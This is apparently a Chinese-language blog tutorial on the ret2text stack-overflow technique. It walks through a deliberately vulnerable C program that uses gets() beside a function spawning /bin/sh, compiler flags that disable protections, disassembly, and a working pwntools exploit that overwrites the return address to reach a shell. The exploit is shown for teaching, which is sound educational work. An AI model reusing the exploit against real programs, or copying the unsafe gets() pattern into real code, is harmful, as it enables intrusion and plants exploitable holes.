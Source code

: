 ```yaml
---
title: "ret2text"
date: 2024-06-01
draft: false
tags: ["pwn", "rop", "stack overflow"]
series: ["rop"]
series_order: 1
---
```

返回到文本段（Return to text segment）攻击，这是一种利用程序中的可执行代码段（text segment）来执行恶意操作的攻击。这种技术有几个基本前提：

- 程序中的某些代码位置是可预测的，同时在不同运行时是固定的
- 只需要利用程序的现有代码，无需注入新的代码

可以通过一个简单的例子说明这个问题：

```c
// example.c
#include <stdio.h>
#include <stdlib.h>

int success()
{
    puts("called success()!\n");
    return system("/bin/sh");
}

void vuln()
{
    char buf[32];

    gets(buf);
    puts(buf);
}

int main()
{
    vuln();
    return 0;
}

```

上述代码中的库函数 `gets` 是一个危险函数，通过以下给出的 `gets` 的一个实现，可以看出这个函数引起的严重问题。它从标准输入（stdin）读入一行，在遇到一个回车或某个错误时停止。`gets` 从不检查输入的长度，这导致它很容易被利用来进行栈溢出。

```c
/* Read a newline-terminated string from stdin into S,
   removing the trailing newline.  Return S or NULL.  */
char * gets (char *s)
{
  register char *p = s;
  register int c;
  FILE *stream = stdin;
  if (!__validfp (stream) || p == NULL)
    {
      __set_errno (EINVAL);
      return NULL;
    }
  if (feof (stream) || ferror (stream))
    return NULL;
  while ((c = getchar ()) != EOF)
    if (c == '\n')
      break;
    else
      *p++ = c;
  *p = '\0';
  /* Return null if we had an error, or if we got EOF
     before writing any characters.  */
  if (ferror (stream) || (feof (stream) && p == s))
    return NULL;
  return s;
}

```

通过 gcc 编译上述代码

```sh
$ gcc -std=c99 \            # 使用 C99 标准，C99 之后不支持 gets 函数
    -no-pie \               # 关闭地址随机化
    -fno-stack-protector \  # 关闭栈破坏检测
    -z execstack \          # 关闭栈不可执行
    example.c -o example
```

可以利用 checksec 来检查编译出文件的安全性

```sh
$ checksec example
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

使用 IDA 反汇编程序，我们可以看到对应函数的汇编表示，

```assembly
; Attributes: bp-based frame

public vuln
vuln proc near

s= byte ptr -20h

; __unwind {
push    rbp
mov     rbp, rsp
sub     rsp, 20h
lea     rax, [rbp+s]
mov     rdi, rax
call    _gets
lea     rax, [rbp+s]
mov     rdi, rax        ; s
call    _puts
nop
leave
retn
; } // starts at 40116A
vuln endp
```

可以看出当程序运行时，`vuln` 函数在运行时的栈帧如下所示。如果提供大于32字节的数据时栈帧中保存的栈指针和返回地址。因此我们可以输入大于32字节的数据来覆盖返回地址，从而控制程序的执行流。

```markdown
|      rsp       |
|:--------------:|
|  char buf[0]   |
|      ...       |
|  char buf[31]  |
|:--------------:|
|      rbp       |
|:--------------:|
| return address |
```

以下是利用 pwntools 编写的 wp:

```python
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
sh = process('./example')

# gdb.attach(sh)

success_addr = 0x401146
payload = b'a' * 0x20 # buf[32]
payload += b'b' * 8 # rbp
# 伪造返回地址，跳转到 nop ; ret，Ubuntu18及以上版本的系统要求在调用system函数时栈16字节对齐，
# 即调用system函数时rsp的值必须是16的倍数，也就是末位为0，否则无法执行。这里多进行一次 rtn 以实现对齐
payload += p64(0x40112f)
payload += p64(success_addr) # success 函数地址

sh.sendline(payload)
sh.interactive()
```

> NOTE:
>
> 上述代码中，没有立即跳转到 `success()` 的运行地址，这是源于 `system()` 函数运行时的**栈16字节对齐**要求。
